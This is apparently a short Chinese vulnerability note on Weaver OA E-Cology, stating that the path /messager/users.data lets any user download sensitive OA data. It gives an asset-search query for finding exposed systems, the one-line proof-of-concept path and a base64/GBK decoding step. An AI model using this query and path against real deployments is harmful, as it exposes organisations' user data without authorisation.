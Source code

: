 # 泛微OA E-Cology users.data 敏感信息泄漏

# 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同商务系统"
```

## 漏洞复现

登录页面

![image-20220520134158756](/images/202205201341810.png)

验证POC

```
/messager/users.data
```

![image-20220520134209598](/images/202205201342693.png)

base64 GBK解码


